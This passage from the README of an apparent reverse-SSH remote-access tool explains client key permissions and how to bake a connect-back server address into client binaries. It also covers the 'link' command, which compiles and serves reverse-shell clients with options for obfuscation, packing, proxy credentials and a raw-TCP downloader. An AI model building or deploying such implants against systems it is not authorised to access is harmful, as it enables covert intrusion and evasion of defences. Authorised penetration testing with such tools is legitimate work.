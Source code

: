 This can be changed at run time via an user sharing access to a client they own with the `access` command, or a server administrator. Defaultly, any public key found in the `authorized_keys` file will be marked as an administrator to retain backwards compatibility.
Any changes made by the `access` command will not persist server reboot, and this will require editing the `authorized_controllee_keys` file for that specific client. 

### Automatic connect-back

The rssh client allows you to bake in a connect back address.
By default the `link` command will bake in the servers external address.

If you're (for some reason) manually building the binary, you can specify the environment variable `RSSH_HOMESERVER` to bake it into the client:

```sh
$ RSSH_HOMESERVER=your.rssh.server.internal:3232 make

# Will connect to your.rssh.server.internal:3232, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to the supplied host, e.g example.com:3232
$ bin/client -d example.com:3232
```

### Reverse shell download (client generation and in-built HTTP/Raw TCP server)

The RSSH server can build and host client binaries (`link` command). Which is the preferred method for building and serving clients.
For function to work the server must be placed in the project `bin/` folder, as it needs to find the client source.

By default the `docker` release has this all built properly, and is recommended for use

```sh
ssh your.rssh.server.internal -p 3232

catcher$ link -h

link [OPTIONS]
Link will compile a client and serve the resulting binary on a link which is returned.
This requires the web server component has been enabled.
        --fingerprint   Set RSSH server fingerprint will default to server public key
        --garble        Use garble to obfuscate the binary (requires garble to be installed)
        --goarch        Set the target build architecture (default runtime GOARCH)
        --goarm Set the go arm variable (not set by default)
        --goos  Set the target build operating system (default runtime GOOS)
        --http  Use http polling as the underlying transport
        --https Use https polling as the underlying transport
        --log-level     Set default output logging levels, [INFO,WARNING,ERROR,FATAL,DISABLED]
        --lzma  Use lzma compression for smaller binary at the cost of overhead at execution (requires upx flag to be set)
        --name  Set the link download url/filename (default random characters)
        --no-lib-c      Compile client without glibc
        --ntlm-proxy-creds      Set NTLM proxy credentials in format DOMAIN\\USER:PASS
        --owners        Set owners of client, if unset client is public all users. E.g --owners jsmith,ldavidson
        --proxy Set connect proxy address to bake it
        --raw-download  Download over raw TCP, outputs bash downloader rather than http
        --shared-object Generate shared object file
        --sni   When TLS is in use, set a custom SNI for the client to connect with
        --stdio Use stdin and stdout as transport, will disable logging, destination after stdio:// is ignored
        --tls   Use TLS as the underlying transport
        --upx   Use upx to compress the final binary (requires upx to be installed)
        --use-kerberos  Instruct client to try and use kerberos ticket when using a proxy
```